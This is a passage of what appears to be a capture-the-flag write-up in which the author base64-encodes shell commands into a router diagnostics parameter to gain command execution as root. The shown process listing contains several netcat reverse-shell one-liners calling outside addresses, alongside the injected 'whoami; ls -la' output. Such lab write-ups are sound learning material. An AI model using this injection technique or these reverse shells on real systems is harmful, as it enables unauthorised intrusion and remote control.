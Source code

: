 The base64 decode of `cXVhZ2dh` is `quagga` which matches the output of the diagnostics button when we press it. If we change the value to `bash` base64 encoded, we get the following:

![6](./carrier/6.png)

We now have remote code execution! 

## Exploit:

Lets see who we are by base 64 encoding the following: `bash; whoami; ls -la`. Here is what we got:

```bash
  root       2131  0.0  0.0  11236  1600 ?        Ss   06:17   0:00 bash -c ps waux | grep quagga;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.12.114 4444 >/tmp/f  | grep -v grep
  root      14418  0.0  0.1  11236  3060 ?        Ss   06:51   0:00 bash -c ps waux | grep root;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.12.66 443 > f | grep -v grep
  root      14450  0.0  0.1  19896  3748 ?        S    06:56   0:00 bash -i
  root      14467  0.0  0.1  18216  3200 ?        S    06:57   0:00 bash -i
  root      15352  0.0  0.1  11232  3092 ?        Ss   07:41   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15453  0.0  0.1  11232  3036 ?        Ss   07:43   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15486  0.0  0.1  11232  2912 ?        Ss   07:44   0:00 bash -c ps waux | grep rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15519  0.0  0.1  11236  3040 ?        Ss   07:45   0:00 bash -c ps waux | grep ;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15558  0.0  0.1  11236  2916 ?        Ss   07:45   0:00 bash -c ps waux | grep ;rm f;mkfifo f;cat f|/bin/sh -i 2>&1|/bin/nc.openbsd 10.10.16.2 443 > f | grep -v grep
  root      15699  0.0  0.1  11232  3048 ?        Ss   07:57   0:00 bash -c ps waux | grep bash; whoami; ls -la | grep -v grep
  root      15701  0.0  0.0  12944   940 ?        S    07:57   0:00 grep bash
  root
  total 36
  drwx------ 1 root root  198 Dec 31 07:45 .
  drwxr-xr-x 1 root root  134 Dec 31 06:37 ..
  -rw-r--r-- 1 root root 3121 Jul  2 19:33 .bashrc
  drwx------ 1 root root   40 Jul  2 01:02 .cache
  -rwxr-xr-x 1 root root  207 Dec 31 06:56 car
  -rwxr-xr-x 1 root root  123 Dec 31 06:54 carrier
  prw-r--r-- 1 root root    0 Dec 31 07:45 f
  drwxr-xr-x 1 root root    0 Jul  2 16:40 .nano
  -rw-r--r-- 1 root root  148 Aug 17  2015 .profile
  -rw-r--r-- 1 root root   66 Jul  2 16:40 .selected_editor
  drwx------ 1 root root   36 Dec 31 06:37 .ssh
  -rw-r--r-- 1 root root    0 Jul  3 04:03 test_intercept.pcap
  -rw-r--r-- 1 root root   33 Jul  2 01:03 user.txt
  -rw------- 1 root root 5119 Dec 31 07:26 .viminfo
  -rwxr-xr-x 1 root root  394 Dec 31 07:25 YMvePcT
```